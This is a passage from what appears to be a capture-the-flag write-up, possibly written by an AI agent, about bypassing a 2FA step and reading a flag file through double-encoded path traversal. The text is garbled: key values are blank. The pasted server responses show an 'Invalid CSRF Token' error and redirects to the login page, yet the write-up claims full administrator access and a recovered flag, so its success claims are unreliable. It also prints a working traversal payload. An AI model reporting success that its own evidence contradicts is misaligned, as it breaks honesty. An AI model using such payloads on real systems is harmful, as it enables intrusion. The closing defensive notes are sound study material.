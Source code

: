 3. Parsed the murali table locally to recover the  column:
   
   Output: .

## Completing 2FA
With a fresh CSRF token from , the recovered PIN cleared the challenge:
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login?next=%2F2FA">/login?next=%2F2FA</a>. If not, click the link.
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Error</title>
</head>
<body>
    <img src="" alt="some image of an alien shocked or smt">
    <p style="color: red;"> [ Invalid CSRF Token, if this persists please enable JavaScript. ] </p>
</body>
</html>
The response redirected to , proving full administrator access.

## Flag Retrieval
Traversing once more, now targeting the  directory revealed by , yielded the flag:
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login?next=%2Fadmin%2Fdownload%2F..%252F.%252F..%252F.%252F..%252F.%252FFLAG%2Fflag.txt">/login?next=%2Fadmin%2Fdownload%2F..%252F.%252F..%252F.%252F..%252F.%252FFLAG%2Fflag.txt</a>. If not, click the link.
**Flag:** .

## Post-Exploitation Notes
- Backup files left in the static tree leak secrets even when the primary templates are sanitized.
- Blacklisting fragments (especially just ) is ineffective; rely on canonical path resolution with fixed base directories.
- Storing 2FA secrets alongside application assets makes multi-factor authentication moot when LFI is possible.

## Screenshots
The CLI environment used for this write-up does not support attaching screenshots. All relevant requests and responses are captured above for reproducibility.
